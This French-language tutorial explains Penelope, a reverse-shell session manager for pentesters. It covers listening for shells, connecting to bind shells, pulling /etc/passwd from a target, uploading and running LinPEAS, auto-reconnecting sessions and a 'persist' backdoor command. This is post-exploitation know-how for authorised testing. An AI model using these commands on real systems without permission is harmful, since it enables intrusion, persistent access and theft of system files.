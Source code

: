 # Penelope

### Tutoriel Complet sur Penelope

#### Introduction

**Penelope** est un outil de gestion de shells, conçu pour aider les pentesters à améliorer la gestion des shells inversés. Il fournit une interface avancée qui permet des fonctionnalités telles que l'auto-upgrade de shells en PTY (Pseudo-Terminal), la gestion de multiples sessions, le téléchargement et l'upload de fichiers, ainsi que d'autres commandes interactives.

***

#### Installation de Penelope

Penelope est un outil basé sur **Python**, donc l'installation est simple et nécessite peu de dépendances.

**Prérequis**

* **Python 3.6 ou plus récent**
* **Git** pour cloner le dépôt
* Environnement compatible **Linux** ou **macOS** (Penelope supporte principalement les shells Unix)

**Étapes d'installation**

1.  **Cloner le dépôt GitHub** : La première étape est de cloner le dépôt Penelope depuis GitHub.

    ```bash
    git clone https://github.com/brightio/penelope.git
    cd penelope
    ```
2.  **Exécuter Penelope** : Une fois le dépôt cloné, vous pouvez directement exécuter Penelope sans avoir besoin d'une installation supplémentaire.

    ```bash
    python3 penelope.py
    ```

_Note_: Il n'est pas nécessaire d'installer d'autres dépendances, Penelope est un script Python autonome.

#### Utilisation de Penelope

Penelope est conçu pour simplifier et améliorer la gestion des sessions **reverse shell** dans des environnements de pentest. Il offre plusieurs fonctionnalités pour l'amélioration de l'expérience utilisateur et la gestion efficace des sessions.

**1. Lancer Penelope pour écouter des connexions shell**

Penelope peut être utilisé pour écouter des connexions inversées (reverse shells). Par défaut, Penelope écoute sur **0.0.0.0:4444**, mais vous pouvez spécifier un autre port ou interface réseau.

```bash
# Écoute sur le port par défaut (4444)
python3 penelope.py

# Écoute sur le port 5555
python3 penelope.py 5555

# Écoute sur une interface réseau spécifique (par exemple, eth0)
python3 penelope.py 5555 -i eth0
```

**Explication** :

* Le premier argument définit le port d'écoute.
* L'option `-i` permet de spécifier une interface réseau particulière si nécessaire.

**2. Connexion à un shell bind**

Penelope peut également se connecter à des **bind shells** (un shell où la cible écoute sur un port). Utilisez la commande suivante pour établir une connexion à un shell bind sur la machine cible :

```bash
python3 penelope.py -c <target_ip> 3333
```

**Explication** :

* L'option `-c` (connect) permet de se connecter à une cible qui écoute sur le port 3333.

**3. Fonctions de téléchargement et d'upload**

Penelope inclut des commandes pour **télécharger** et **uploader** des fichiers depuis ou vers la machine cible.

```bash
# Télécharger un fichier de la cible
download /etc/passwd

# Uploader un fichier vers la cible
upload linpeas.sh /tmp
```

**Explication** :

* **download** : Télécharge un fichier spécifié depuis la machine cible.
* **upload** : Envoie un fichier local vers la cible, dans le chemin spécifié (par exemple `/tmp`).

**4. Maintien de sessions multiples**

Une des fonctionnalités puissantes de Penelope est la gestion de **multiples sessions**. Penelope permet de maintenir un certain nombre de shells actifs sur une cible, et si une session est perdue, elle sera automatiquement recréée.

```bash
python3 penelope.py --maintain 2
```

**Explication** :

* **--maintain** : Cette option permet de maintenir deux sessions actives avec la cible. Si l'une des sessions tombe, elle est automatiquement recréée.

**5. Auto-upgrade en shell PTY**

Penelope tente automatiquement d'upgrader un shell simple en **PTY** (Pseudo-Terminal), afin de permettre l'utilisation de commandes interactives (comme `nano`, `top`, etc.) et d'améliorer l'expérience shell.

Cela se fait automatiquement lorsqu'une connexion est établie. Toutefois, si le shell n'est pas automatiquement amélioré, vous pouvez forcer un upgrade manuel avec la commande suivante :

```bash
upgrade
```

**Explication** :

* **upgrade** : Tente de convertir le shell actuel en un shell interactif avec PTY, permettant des commandes interactives comme dans un terminal normal.

**6. Fonctionnalités de persistance**

Penelope peut ajouter de la **persistance** à votre connexion, en maintenant un certain nombre de sessions ou en ajoutant des backdoors. Pour configurer la persistance, utilisez la commande suivante :

```bash
persist
```

**Explication** :

* Cette commande tente de maintenir l'accès à la machine compromise même après un redémarrage ou d'autres interruptions.

**7. Serveur HTTP intégré**

Penelope dispose également d'un **serveur HTTP** intégré pour partager des fichiers facilement entre votre machine et la cible. Cela permet de servir des fichiers que la cible peut télécharger.

```bash
python3 penelope.py -s --port 8000
```

**Explication** :

* **-s** active le serveur HTTP, et l'option `--port` permet de spécifier un port particulier (8000 dans cet exemple).

**8. Exécution de scripts locaux sur la cible**

Penelope vous permet d'exécuter des scripts locaux sur la machine cible et d'obtenir les résultats sur votre machine. Cette fonctionnalité est utile pour automatiser des tâches ou effectuer des vérifications post-exploitation.

```bash
run script.sh
```

***

#### Scénarios d'utilisation

**Exemple 1 : Maintenir un accès constant à une machine**

Si vous souhaitez maintenir deux sessions actives avec une machine cible pour ne pas perdre l'accès, vous pouvez exécuter :

```bash
python3 penelope.py --maintain 2
```

Penelope régénérera une nouvelle session si une des connexions est perdue, vous garantissant ainsi un accès constant à la cible.

**Exemple 2 : Exécuter des scripts de post-exploitation**

Après avoir établi une connexion shell, vous pouvez facilement uploader et exécuter des scripts de post-exploitation, comme LinPEAS pour énumérer les informations sur la cible.

```bash
upload linpeas.sh /tmp
run /tmp/linpeas.sh
```

***

#### Conclusion

**Penelope** est un outil puissant pour les pentesters cherchant à améliorer leur gestion des shells. Grâce à ses fonctionnalités telles que le maintien de sessions multiples, l'auto-upgrade des shells en PTY, et la gestion des uploads/téléchargements, il simplifie grandement les tâches de post-exploitation.
